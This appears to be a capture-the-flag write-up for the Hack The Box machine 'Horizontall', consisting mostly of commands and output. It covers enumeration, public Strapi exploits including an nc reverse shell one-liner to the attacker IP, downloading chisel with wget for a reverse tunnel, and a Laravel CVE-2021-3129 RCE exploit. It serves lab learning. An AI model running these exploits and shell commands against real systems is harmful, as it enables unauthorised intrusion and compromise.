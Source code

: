 # HORIZONTALL
### User Flag

```bash
[kali@kali ~]$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.105
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 63
```

Nothing interesting appears fuzzing for directories or file, So I tried scanning for virtual hosts

```bash
[kali@kali ~]$ ffuf -w ~/wordlist/subdomains-top1million-110000.txt:FUZZ -u http://horizontall.htb/ -H 'Host: FUZZ.horizontall.htb' -fs 194 -v -t 200
...
[Status: 200, Size: 901, Words: 43, Lines: 2]
| URL | http://horizontall.htb/
    * FUZZ: www

[Status: 200, Size: 413, Words: 76, Lines: 20]
| URL | http://horizontall.htb/
    * FUZZ: api-prod
```

Now lets fuzz the VHOST api-prod

```bash
[kali@kali ~]$ ffuf -w ~/wordlist/directories.txt -u http://horizontall.htb/FUZZ -v -t 200
...
[Status: 200, Size: 854, Words: 98, Lines: 17]
| URL | http://api-prod.horizontall.htb/admin
    * FUZZ: admin

```
If we chek the page we'll find a strapi login page, and searching for strapi vulnerabilties we found https://www.exploit-db.com/exploits/50239, so let's run it.
(you can check the strapi version in http://api-prod.horizontall.htb/admin/init)

```bash
[kali@kali ~]$python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxNzQwODgwLCJleHAiOjE2NDQzMzI4ODB9.luB-yz5Zzm5mWVVSJBL34oBFohrjjTdSqtRV7m9hvvY
```

Searching for this exploit I found another one that requires a JWT token so let's try to make a reverse shell with it https://www.exploit-db.com/exploits/50238
```bash
[kali@kali ~]$ nc -lnvvvp 5555
...
[kali@kali ~]$ python3 50238.py http://api-prod.horizontall.htb eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxNTg2NjM5LCJleHAiOjE2NDQxNzg2Mzl9.ZUJptHdyrooFivW8npIG_JVsBKGrimccmY6QC14mGv4 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.243 5555 >/tmp/f" 10.10.14.243

[+] Successful operation!!!

```

Let's get user flag then

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ cat home/developer/user.txt
```

### Root flag

```bash
strapi@horizontall:~/myapi$ netstat -antlp | grep LISTEN
netstat -antlp | grep LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1835/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

If we try looking at ports with curl we will find something interesting in port 8000 so let's do a remote port forwarding to see it from our browser

```bash
[kali@kali ~]$ cp /usr/bin/chisel .
[kali@kali ~]$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
...
strapi@horizontall:~/myapi$ wget http://10.10.14.243:80/chisel
wget http://10.10.14.243:80/chisel
--2022-01-09 15:18:38--  http://10.10.14.243/chisel
Connecting to 10.10.14.243:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8750072 (8.3M) [application/octet-stream]
Saving to: ‘chisel.1’

chisel.1            100%[===================>]   8.34M  7.27MB/s    in 1.1s    

2022-01-09 15:18:40 (7.27 MB/s) - ‘chisel.1’ saved [8750072/8750072]

strapi@horizontall:~/myapi$ chmod a+x chisel    

```

```bash
[kali@kali ~]$ chisel server -p 1234 --reverse  
2022/01/09 10:03:21 server: Reverse tunnelling enabled
2022/01/09 10:03:21 server: Fingerprint agr0rkd/+jKcuiD83s9b2zKVGbRv6r07aAVo6oRGxmg=
...
strapi@horizontall:~/myapi$ ./chisel client 10.10.14.243:1234 R:8080:127.0.0.1:8000
<isel client 10.10.14.243:1234 R:8080:127.0.0.1:8000
2022/01/09 15:24:41 client: Connecting to ws://10.10.14.243:1234
2022/01/09 15:24:41 client: Connected (Latency 51.978835ms)
```

We see a Laravel webpage if we search for "Lavarel port forwarding exploit" we find https://github.com/nth347/CVE-2021-3129_exploit.
So let's try it out

```bash
[kali@kali ~]$ /exploit.py http://localhost:8080 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2776, done.
remote: Counting objects: 100% (1118/1118), done.
remote: Compressing objects: 100% (640/640), done.
remote: Total 2776 (delta 459), reused 955 (delta 334), pack-reused 1658
Receiving objects: 100% (2776/2776), 412.30 KiB | 1.93 MiB/s, done.
Resolving deltas: 100% (1101/1101), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited
```
